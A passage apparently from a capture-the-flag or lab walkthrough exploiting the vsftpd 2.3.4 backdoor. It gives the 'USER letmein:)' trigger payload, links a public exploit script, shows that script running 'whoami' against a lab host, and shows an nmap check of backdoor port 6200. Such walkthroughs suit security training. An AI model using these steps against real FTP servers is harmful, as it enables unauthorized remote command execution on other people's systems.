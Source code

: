 ![](images/2.png)

<a href='https://github.com/ahervias77/vsftpd-2.3.4-exploit' target="blank">Backdoor Command Execution</a>, this exploit trigger vsftpd 2.3.4 backdoor on port 6200 and prints supplied command's output. Payload: `USER letmein:)`.

Execute payload

```
python3 vsftpd-2.3.4-exploit.py 10.10.10.3 21 whoami
```

Check open port: 6200

```
nmap -p 6200 10.10.10.3 -Pn
```

![](images/3.png)
